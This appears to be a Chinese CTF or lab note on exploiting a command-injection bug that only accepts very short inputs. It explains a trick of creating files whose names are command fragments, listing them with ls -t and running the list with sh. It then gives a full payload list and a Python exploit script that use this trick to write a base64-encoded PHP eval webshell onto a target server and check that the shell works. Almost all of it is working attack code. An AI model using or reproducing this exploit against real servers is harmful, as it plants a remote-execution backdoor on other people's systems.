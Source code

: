 预备知识：

```shell
a #虽然没有输入但是会创建a这个文件
ls -t #ls基于基于事件排序（从晚到早）
sh a #sh会把a里面的每行内容当作命令来执行
使用\进行命令拼接 #l\ s = ls
base64 #使用base64编码避免特殊字符
```

目标，写入语句“<?php eval($_GET[1]);”，base64编码后“PD9waHAgZXZhbCgkX0dFVFsxXSk7”

需要被执行的语句是：“echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php”

payload.txt

```shell
hp
1.p\\
d\>\\
\ -\\
e64\\
bas\\
7\|\\
XSk\\
Fsx\\
dFV\\
kX0\\
bCg\\
XZh\\
AgZ\\
waH\\
PD9\\
o\ \\
ech\\
ls -t>0
sh 0
```

exp.py

```python
#!/usr/bin/python

# -*- coding: UTF-8 -*-

import requests

url = "http://192.168.12.107/7/index.php?1={0}"
print("[+]start attack!!!")
with open("payload.txt","r") as f:
    for i in f:
        print("[*]" + url.format(i.strip()))
        requests.get(url.format(i.strip()))

#检查是否攻击成功
test = requests.get("http://192.168.12.107/7/1.php")
if test.status_code == requests.codes.ok:
    print("[*]Attack success!!!")
```
